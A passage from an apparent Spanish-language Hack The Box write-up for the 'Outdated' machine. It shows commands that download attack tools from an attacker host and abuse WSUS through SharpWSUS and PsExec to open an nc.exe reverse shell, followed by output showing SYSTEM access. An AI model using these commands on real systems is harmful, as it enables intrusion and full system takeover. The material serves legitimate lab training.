 <img src="/writeups/assets/img/Outdated-htb/7.png" alt="">

Finalmente lo que hay que subir es lo siguiente:

```null
*Evil-WinRM* PS C:\Users\sflowers\Desktop> iwr -uri http://10.10.14.2/SharpWSUS.exe -o SharpWSUS.exe
*Evil-WinRM* PS C:\Users\sflowers\Desktop> iwr -uri http://10.10.14.2/PsExec64.exe -o PsExec64.exe
*Evil-WinRM* PS C:\Users\sflowers\Desktop> iwr -uri http://10.10.14.2/nc.exe -o nc.exe
```

## Reverse Shell

Para ganar acceso al sistema se puede de la siguiente manera

```null
*Evil-WinRM* PS C:\Windows\Temp\Privesc> .\SharpWSUS.exe create /payload:"C:\Windows\Temp\Privesc\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\Temp\Privesc\\nc.exe -e cmd 10.10.14.2 443" /title:"ReverseShell"
Para desplagarlo, te indica el comando que hay que ejecutar

```null
.\SharpWSUS.exe approve /updateid:484cd413-cd7f-41a8-86e6-c0f5e662f424 /computername:DC.outdated.htb /groupname:"ReverseShell"
```

Finalmente, gano acceso a la máquina con máximos privilegios y puedo ver la segunda flag

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.175.
Ncat: Connection from 10.10.11.175:58523.
Microsoft Windows [Version 10.0.17763.1432]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```
